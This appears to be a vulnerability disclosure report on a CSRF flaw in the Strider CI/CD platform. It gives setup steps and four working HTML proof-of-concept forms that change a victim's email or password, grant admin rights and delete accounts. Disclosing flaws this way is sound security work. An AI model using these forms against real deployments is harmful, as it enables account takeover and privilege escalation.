 ## :writing_hand: Description

`Strider` is an Open Source Continuous Deployment / Continuous Integration platform. It is written in Node.js and Ember.js and uses MongoDB as a backing store. This platform is vulnerable to `Cross-Site Request Forgery (CSRF)`. This allowes an attacker to takeover accounts, privillege escalation and accounts deletion.

## :male_detective: Proof of Concept

1. Setup MongoDB
2. Install the package
```bash
git clone https://github.com/Strider-CD/strider.git
cd strider/apps/strider
npm i
node bin/strider addUser # add users accordingly
NODE_ENV=production npm start # start server
```
1. Login as admin
3. Use any of the CSRF POCs
#### Change email
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/email" method="POST">
      <input type="hidden" name="email" value="admin2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Change password
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/password" method="POST">
      <input type="hidden" name="password" value="hacked" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Privilege escalation
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/make_admin">
      <input type="hidden" name="user" value="user&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Account deletion
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/remove_user" method="POST">
      <input type="hidden" name="email" value="admin&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
